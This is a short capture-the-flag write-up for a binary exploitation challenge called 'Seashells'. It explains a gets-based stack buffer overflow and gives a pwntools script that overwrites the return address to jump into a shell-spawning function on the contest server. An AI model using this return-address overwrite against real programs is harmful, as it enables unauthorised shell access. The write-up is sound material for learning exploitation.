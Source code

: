 # Seashells

There is a function called "shell". This function loads rdi into rbp-8, checks it against the value `0xdeadcafebabebeef`, and if the check is successful it pops a shell for us.  
Clearly, our goal is to call this function.

In main, there is a gets call. It reads as much input as we want into `rbp-0xa`, opening up an avenue for buffer overflow. As the saved rbp is 8 bytes long, our padding will be 0xa + 8 bytes of junk.

We _could_ use a pop rdi gadget so that the check works properly, but there's no need. Instead, we can jump straight to the instruction inside of shell that pops a shell for us.

So our payload is just padding + address of instruction in shell that pops a shell

```python
from pwn import *
NUM_TO_RET = 0xa + 8
padding = b'A' * NUM_TO_RET
payload = flat(padding,0x4006e3, word_size=64)
p = remote('p1.tjctf.org',8009)
p.recvlines(2)
pause()
p.sendline(payload)
p.interactive()
```

